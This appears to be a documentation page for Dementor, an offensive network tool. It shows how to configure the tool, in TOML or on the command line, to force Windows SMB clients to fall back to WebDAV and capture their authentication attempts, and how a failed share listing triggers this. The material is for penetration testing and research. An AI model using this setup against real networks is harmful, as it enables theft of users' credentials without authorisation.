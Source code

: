.. _example_webdav_fallback:

WebDAV Fallback
===============

.. seealso::

    For a more detailed explanation of this attack, please refer to this excellent article
    from Synacktiv: `Tricking Windows SMB clients into falling back to WebDav`_.

Windows clients with the WebDAV redirector installed can be tricked into authenticating
against a WebDAV server if SMB access fails. Note that **QUIC must also be disabled**, as it takes
precedence over WebDAV. The protocol resolution order on Windows is:

1. SMB (Port 445)
2. QUIC (Port 443)
3. WebDAV (Port 80, if the WebDAV Redirector service is active)

To leverage this behavior, modify the configuration for *Dementor* as shown below:

.. tabs::

    .. tab:: Dementor.toml

        .. code-block:: toml
            :linenos:
            :emphasize-lines: 6, 10

            [Dementor]
            # [...]
            SMB = true
            HTTP = true
            # [...]
            QUIC = false

            [SMB]
            # [...]
            ErrorCode = "STATUS_BAD_NETWORK_NAME"

            [HTTP]
            # Make sure WebDAV support is enabled
            WebDAV = true

    .. tab:: CLI

        .. code-block:: console

            $ Dementor -I "$INTERFACE" \
                -O QUIC=Off \
                -O SMB.ErrorCode="STATUS_BAD_NETWORK_NAME" \
                -O HTTP.WebDAV=On

        .. note::

            If you're using per-server configurations for SMB or HTTP,
            you must adjust those attributes individually within each server block.

Triggering the Fallback
-----------------------

To trigger the fallback behavior, simply attempt to list files from a nonexistent or inaccessible SMB share:

.. code-block:: powershell

    C:\Users\Administrator> dir \\FILESRV01\internal
    The specified network name is no longer available.

In this scenario, the Windows client will first attempt to authenticate via SMB,
fail with the specified error, and then fall back to WebDAV. If *Dementor* will
capture authentication attempts from both SMB and WebDAV services.

.. figure:: /_static/images/http_webdav-fallback.png
    :align: center

    Specific error codes trick Windows clients into using WebDAV as a fallback mechanism.

.. _Tricking Windows SMB clients into falling back to WebDav: https://www.synacktiv.com/publications/taking-the-relaying-capabilities-of-multicast-poisoning-to-the-next-level-tricking
